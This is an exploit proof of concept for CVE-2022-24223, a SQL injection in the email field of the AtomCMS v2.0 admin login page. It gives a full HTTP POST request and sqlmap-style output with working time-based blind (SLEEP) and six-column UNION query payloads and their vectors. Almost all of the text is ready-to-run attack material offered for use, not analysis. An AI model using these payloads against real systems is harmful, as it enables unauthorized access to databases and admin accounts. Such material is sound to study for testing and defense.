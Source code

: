 AtomCMS v2.0 - SQLi

# CVE
CVE-2022-24223

# POC
http://127.0.0.1/Atom.CMS/admin/login.php

POST /Atom.CMS/admin/login.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101
Firefox/91.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/Atom.CMS/admin/login.php
Cookie: PHPSESSID=tqfebdu4kn9qj7g6qpa91j9859
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
email=test%40test.com&password=1234


# payload
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@test.com' AND (SELECT 5613 FROM
(SELECT(SLEEP(5)))JnLZ) AND 'pROE'='pROE&password=1234
    Vector: AND (SELECT [RANDNUM] FROM
(SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: email=test@test.com' UNION ALL SELECT
NULL,CONCAT(0x717a767a71,0x65557a784e446152424b63724b5a737062464a4267746c70794d5976484c484a5365634158734975,0x71627a7871),NULL,NULL,NULL,NULL--
-&password=1234
    Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL,NULL,NULL-- -
---
